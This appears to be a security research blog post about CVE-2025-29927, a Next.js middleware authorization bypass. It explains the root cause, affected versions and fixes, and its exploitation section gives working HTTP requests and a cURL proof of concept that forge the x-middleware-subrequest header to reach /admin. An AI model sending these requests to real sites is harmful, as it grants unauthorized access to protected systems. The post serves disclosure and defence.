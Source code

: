 ```yaml
---
title: "CVE‑2025‑29927 – Next.js Middleware Authorization Bypass"
date: 2025-07-23 23:30:00 +0300
categories: [Research]
tags: [Web, CVE, Next.js, CVE-2025-29927, Middleware]
description: "CVE‑2025‑29927 is a critical vulnerability (CVSS 9.1) in Next.js that allows attackers to bypass middleware‑based security checks."
---
```


## Overview
**CVE‑2025‑29927** is a **critical** vulnerability (CVSS 9.1) in Next.js that allows attackers to bypass **middleware‑based security checks** such as authentication, access control, and redirects.  

The issue affects applications deployed with `next start` or standalone output and occurs due to improper handling of the internal **`x‑middleware‑subrequest`** HTTP header. By crafting requests that include this header, an attacker can trick Next.js into **skipping middleware execution**, leading to unauthorized access to protected endpoints (e.g., `/admin`).  

---

## Affected Versions  
The following ranges are confirmed vulnerable:

- **11.x:** from **11.1.4** up to the latest 11.x release  
- **12.x:** from **12.0.0** up to **12.3.4**  
- **13.x:** from **13.0.0** up to **13.5.8**  
- **14.x:** from **14.0.0** up to **14.2.24**  
- **15.x:** from **15.0.0** up to **15.2.2**  

---

## Root Cause – Why This Happens  
Next.js uses the header `x‑middleware‑subrequest` **internally** to mark requests as subrequests initiated by middleware. This prevents infinite recursion when middleware calls endpoints that themselves invoke middleware.  

However, **this header was never intended to be user‑controlled**. If an external client sets it manually, Next.js assumes the request is internal and **skips the middleware execution entirely**, resulting in a complete **authorization bypass**.  

In Next.js 15.x, the behavior changed slightly: middleware calls are limited by a `MAX_RECURSION_DEPTH` of 5. But by **supplying the header with 5 values**, an attacker can still hit this condition and **bypass the middleware**.

---

## Exploitation  

### 1. Basic Bypass
For versions prior to v15, a single `x‑middleware‑subrequest` value is enough:  
```http
GET /admin HTTP/1.1
Host: vulnerable-site.com
x-middleware-subrequest: middleware
```

### 2. Recursive‑Depth Bypass (v15.x)
For v15.x, the attacker must include the value repeated **five times** to hit the recursion depth limit:  
```http
GET /admin HTTP/1.1
Host: vulnerable-site.com
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

**cURL PoC**:
```bash
curl -L --request GET "https://target.com/admin"      --header "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```

If `/admin` was protected only by middleware, the attacker now gains direct access.  

---

## Impact  
- **Authentication & Authorization Bypass** – Direct access to protected routes (`/admin`, `/api/private`).  
- **Cache Poisoning / DoS** – Malformed or unauthorized responses may get cached, impacting other users.  
- **Privilege Escalation** – If backend logic relies solely on middleware checks, attackers may escalate privileges.  

---

## Mitigation  

### **1. Upgrade**  
Upgrade to **14.2.25**, **15.2.3**, or later.  

### **2. Strip the Header**  
If upgrading isn’t immediately possible, strip this header at the proxy or app server:  

**Nginx:**  
```nginx
proxy_set_header x-middleware-subrequest "";
```

**Apache:**  
```apache
RequestHeader unset x-middleware-subrequest
```

**Express.js middleware:**  
```js
app.use((req, res, next) => { 
  delete req.headers['x-middleware-subrequest']; 
  next(); 
});
```

### **3. Add Defense‑in‑Depth**  
Do not rely solely on middleware for authorization—enforce access checks at the API/controller level.  

---

## Detection  
- **Log Analysis:** Look for external requests containing the `x-middleware-subrequest` header.  
- **WAF/IDS:** Deploy updated detection rules (e.g., Snort, F5, Check Point) that block this header.  

---

## References  
- [NVD – CVE‑2025‑29927](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)  
- [JFrog Analysis](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)  
- [Datadog Security Labs](https://securitylabs.datadoghq.com/articles/nextjs-middleware-auth-bypass/)  
- [Vercel Postmortem](https://vercel.com/blog/postmortem-on-next-js-middleware-bypass)  

---

### **Takeaway**  
If your Next.js app uses middleware for access control and runs on `next start` or standalone mode — **patch now**. Until then, **strip the `x‑middleware‑subrequest` header** and enforce **redundant authorization checks** on sensitive routes.  
